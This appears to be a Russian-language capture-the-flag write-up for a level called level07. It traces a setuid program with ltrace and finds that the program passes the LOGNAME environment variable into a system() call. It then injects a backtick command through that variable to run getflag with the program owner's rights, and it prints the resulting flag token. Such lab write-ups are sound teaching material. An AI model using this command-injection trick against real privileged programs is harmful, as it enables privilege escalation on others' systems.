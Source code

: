 У нас в home лежит программа "level07"

-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

Владелец программы flag07

Проверяем её через ltrace

__libc_start_main(0x8048514, 1, 0xbffff7e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                 = 2007
geteuid()                                                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                       = 0
getenv("LOGNAME")                                                                         = "level07"
asprintf(0xbffff734, 0x8048688, 0xbfffff3d, 0xb7e5ee55, 0xb7fed280)                       = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                    = 0
+++ exited (status 0) +++

Видим что вызывается метод getenv("LOGNAME") 
который запрашивает имя текущего пользователя

Дальше он использует полученные данные, отправляя их в echo для вывода.

Подменяем LOGNAME на вызов функции getflag.

export LOGNAME='`getflag`'

Запускаем программу.
Вывод: Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
